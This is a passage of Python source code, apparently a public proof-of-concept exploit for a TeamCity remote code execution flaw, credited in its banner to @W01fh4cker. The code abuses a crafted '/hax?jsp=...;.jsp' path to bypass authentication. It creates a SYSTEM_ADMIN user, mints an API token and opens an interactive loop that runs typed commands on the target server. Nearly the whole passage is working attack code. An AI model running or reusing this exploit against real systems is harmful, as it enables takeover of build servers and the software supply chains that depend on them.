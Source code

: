 ```
        "Content-Type": "application/json",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36"
    }
    add_user_data = {
        "username": f"{username}",
        "password": f"{password}",
        "email": f"{username}@{domain}",
        "roles": {
            "role": [
                {
                    "roleId": "SYSTEM_ADMIN",
                    "scope": "g"
                }
            ]
        }
    }
    try:
        add_user_response = requests.post(url=add_user_url, json=add_user_data, headers=add_user_headers, proxies=proxy, verify=False, allow_redirects=False, timeout=600)
        user_id = GetUserID(add_user_response.text)
        if add_user_response.status_code == 200 and user_id is not None:
            print(f"[+] User added successfully, username: {GREEN}{username}{RESET}, password: {GREEN}{password}{RESET}, user ID: {GREEN}{user_id}{RESET}")
            Exploit(target, user_id)
        else:
            print(f"[-] Failed to add user, there is no vulnerability in {target}")
    except Exception as err:
        print("[-] Error in func <AddUser>, error message: " + str(err))

def Exploit(target, user_id):
    exploit_url = target + f"/hax?jsp=/app/rest/users/id:{user_id}/tokens/{token_name};.jsp"
    exploit_headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36"
    }
    try:
        exploit_response = requests.post(url=exploit_url, headers=exploit_headers, proxies=proxy, verify=False, allow_redirects=False, timeout=600)
        token = GetToken(exploit_response.text)
        os_version = GetOSVersion(target, token)
        print(f"[+] The target operating system version is {GREEN}{os_version}{RESET}")
        print("[+] Please start executing commands freely! Type <quit> to end command execution")
        while True:
            command = input(f"{GREEN}command > {RESET}")
            if command == "quit":
                sys.exit(0)
            ExecuteCommand(target, os_version, command, token)
    except Exception as err:
        print("[-] Error in func <Exploit>, error message: " + str(err))

def ParseArguments():
    banner = r"""
 _____                     ____ _ _           ____   ____ _____ 
|_   _|__  __ _ _ __ ___  / ___(_) |_ _   _  |  _ \ / ___| ____|
  | |/ _ \/ _` | '_ ` _ \| |   | | __| | | | | |_) | |   |  _|  
  | |  __/ (_| | | | | | | |___| | |_| |_| | |  _ <| |___| |___ 
  |_|\___|\__,_|_| |_| |_|\____|_|\__|\__, | |_| \_\\____|_____|
                                      |___/                     
                                                                            Author: @W01fh4cker
                                                                            Github: https://github.com/W01fh4cker
    """
```